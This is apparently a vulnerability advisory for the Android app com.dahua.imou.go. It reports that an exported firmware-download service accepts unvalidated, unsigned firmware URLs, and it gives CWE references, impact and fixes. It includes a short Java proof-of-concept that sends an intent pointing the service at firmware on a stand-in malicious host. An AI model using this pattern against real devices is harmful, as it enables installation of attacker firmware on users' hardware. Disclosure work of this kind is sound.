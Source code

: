 The`com.oneed.dvr.service.DownloadFirmwareService` component within the Android app `com.dahua.imou.go` possesses a vulnerability. An remote attacker(via a malicious app can control the URL path of firmware downloads, potentially leading to arbitrary code execution or a compromised device state.

### Details

- **Affected Component**: `com.oneed.dvr.service.DownloadFirmwareService`
- **Affected Application**: `com.dahua.imou.go`
- **Vulnerability Type**: Improper Input Validation / Arbitrary File Write
- CWE-20: Improper Input Validation - This weakness describes a failure to sanitize, filter, or verify data or input.
- CWE-494: Download of Code Without Integrity Check - This weakness points to systems that download code without ensuring the authenticity or source integrity.

### Description

The `com.oneed.dvr.service.DownloadFirmwareService` in the app `com.dahua.imou.go` retrieves a firmware download URL from incoming intents. The service does not validate the origin or authenticity of this intent, nor does it verify the integrity of the downloaded content. This vulnerability exposes devices to:

1. Attacker-controlled intents with malicious firmware URLs.
2. Potential downloads, storage, and execution of malicious firmware.

### Proof of Concept (PoC)

#### Java Android PoC Sample Code:

```java
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MaliciousActivity extends AppCompatActivity {
   
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_malicious);
       
        // Intent targeting the vulnerable service
        Intent exploitIntent = new Intent();
        exploitIntent.setComponent(new ComponentName("com.dahua.imou.go", "com.oneed.dvr.service.DownloadFirmwareService"));
       
        // Setting malicious firmware URL
        Uri maliciousURL = Uri.parse("https://malicious-site.com/malicious-firmware.bin");
        exploitIntent.setData(maliciousURL);
       
        // Send the intent to exploit the vulnerability
        startService(exploitIntent);
    }
}
```

### Impact

- Arbitrary code execution: If the malicious firmware is loaded and executed, it allows an attacker to execute arbitrary code on the device.
- Modified device behavior: An attacker can change the behavior of the device, leading to potential data exposure or unauthorized device actions.

### Recommendation

1. Implement stringent input validation to ensure only valid firmware URLs are accepted.
2. Utilize cryptographic checks (like signature verification) to ascertain the integrity of downloaded firmware.
3. Set intent permissions or restrict the exported nature of the service, limiting its accessibility.

### References

- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [CWE-494: Download of Code Without Integrity Check](https://cwe.mitre.org/data/definitions/494.html)
